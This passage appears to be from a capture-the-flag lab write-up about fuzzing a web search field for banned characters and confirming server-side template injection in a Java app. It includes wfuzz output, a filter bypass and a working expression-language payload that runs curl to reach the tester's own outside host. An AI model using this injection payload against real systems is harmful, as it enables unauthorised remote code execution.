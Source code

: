 it seems that some of the characters here straight up cause crashes. When we filter for the word `banned`, then we see some more characters:

```
$ wfuzz -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt  -u http://10.129.227.207:8080/search -d name=FUZZ --sw=69     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.227.207:8080/search
Total requests: 95

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000004:   200        28 L     69 W       755 Ch      "$"                         
000000063:   200        28 L     69 W       755 Ch      "_"                         
000000094:   200        28 L     69 W       755 Ch      "~"
```

These characters are banned, but the rest are not. This is what happens when I used `#{7*7}:`

<figure><img src="../../../.gitbook/assets/image (2063).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works, and the payload was taken from a Freemarker cheat sheet, meaning the page runs in Java (but not necessarily FreeMarker!). We can use this payload after replacing the `$` with `*` because `#` doesn't seem to work.&#x20;

<pre><code><strong>*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.13/sstirce')}
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>
